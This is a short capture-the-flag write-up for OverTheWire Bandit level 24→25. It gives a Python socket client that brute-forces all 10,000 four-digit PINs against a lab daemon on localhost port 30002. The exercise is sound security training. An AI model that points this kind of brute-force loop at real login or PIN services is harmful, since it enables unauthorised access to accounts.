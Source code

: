 # Bandit 24 -> 25

```bash
ssh bandit24@bandit.labs.overthewire.org
```

```
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
```

For this level I wrote a very simple netcat client using Python ([based on a CUPS client I wrote before](https://raw.githubusercontent.com/lvm/cups-indexbraille/master/indexbraille)).
There's room for improvement but that's left to you :-)

```python
#!/usr/bin/env python

import socket

def netcat(hostname, port, content):
    try:
        port = int(port)
    except ValueError as e:
        print "Port must be numeric \n", e

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((hostname, port))
    s.sendall(content)
    s.shutdown(socket.SHUT_WR)
    while 1:
        data = s.recv(1024)
        if data == "":
            break
        else:
            print data
    s.close()

for i in range(0, 10000):
    pin = "{0:4}".format(i).replace(" ","0")
    passwd = "BANDIT24_PASSWD"
    netcat('localhost', 30002, "{} {}".format(passwd, pin))
```

```bash
$ cd `mktemp -d`
$ python bf.py > log.txt
```

And we wait.

* ssh
* python
* mktemp
